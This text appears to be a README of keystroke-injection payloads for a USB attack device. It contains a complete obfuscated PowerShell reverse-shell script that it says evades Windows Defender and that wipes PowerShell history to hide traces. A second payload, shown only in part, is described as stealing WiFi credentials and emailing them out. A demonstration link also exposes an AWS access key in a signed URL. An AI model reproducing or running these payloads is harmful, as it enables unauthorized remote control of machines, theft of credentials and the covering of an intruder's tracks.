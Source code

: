 Useful payloads to test in your controlled environment:

#### Payload to create a reverse shell via powershell

With this payload you will get a reverse shell with powershell bypassing Windows Defender (Tested for Win10 at date of release)

Replace `LISTEN_IP` and `PORT`.

This script will erase the powershell history to remove traces (although more things would be missing)

```php
Press:131+114
CustomDelay:500
Print:powershell -NoP -NonI -W hidden -Exec Bypass
CustomDelay:250
Press:176
CustomDelay:200
Print:$I='LISTEN_IP';$P=PORT;$0LVhbQ=[TyPE]('tExT'+'.enCOD'+'InG');$C=.('New'+'-Obj'+'ect') System.Net.Sockets.TCPClient($
CustomDelay:200
Print:I,$P);$S=$C.GetStream();[byte[]]$b=0..65535|&('%'){0};while(($i=$S.Read($b,0,$b.Length))-ne 0){;$d=(&('New'+'-Ob'+'ject'
CustomDelay:200
Print:) -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);$X=(&('ie'+'x') $d 2>&1 | .('Out'+'-St'+'ring'));$Z=$X+'PS'+(&
CustomDelay:200
Print:('pw'+'d')).Path+'>';$sbt=($0lvHBq::ASCII).GetBytes($Z);$S.Write($sbt,0,$sbt.Length);$S.Flush()};$C.Close()
CustomDelay:100
Press:176
Print:cd AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine
Press:176
Print:del ConsoleHost_history.txt
Press:176
Print:exit
```

<br />

[Demostration](https://s3.amazonaws.com/img0.recordit.co/pWhlJ7FQwC.mp4?AWSAccessKeyId=AKIAUQ5RURZ7ND2T2B6I&Expires=1634444102&Signature=wj%2BayozcsGBaBW2d3X%2BiBrc8sBM%3D)

#### Payload to steal WiFi network credentials from a host and exfiltrate them via email

You will require a temporary gmail account to which you allow the [Less-secure-apps](https://myaccount.google.com/u/4/lesssecureapps) option.

*Do not use your main account*

Also this script will delete all created tests including logs and powershell history.

Replace *YOUR_EMAIL* and *YOUR_PASSWORD*.

```php
CustomDelay:500
Press:131+100
CustomDelay:150
Press:131+114
CustomDelay:400
Print:cmd
Press:176
CustomDelay:500
Print:color FE & mode con:cols=18 lines=1
Press:176
Print:cd Desktop
Press:176
```